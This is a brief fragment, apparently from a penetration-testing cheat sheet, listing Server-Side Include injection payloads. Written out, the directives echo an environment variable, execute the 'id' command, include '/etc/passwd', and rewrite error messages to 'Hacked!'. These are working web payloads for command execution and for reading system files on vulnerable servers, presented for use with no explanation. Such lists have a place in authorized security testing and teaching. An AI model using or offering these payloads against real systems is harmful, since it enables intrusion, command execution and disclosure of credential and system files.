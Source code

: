 ### SSI Directives:

- Print environment variables: `<!--#echo var="HTTP_USER_AGENT" -->`
    
- Execute commands: `<!--#exec cmd="id" -->`
    
- Include files: `<!--#include file="/etc/passwd" -->`
    
- Modify error messages: `<!--#config errmsg="Hacked!" -->`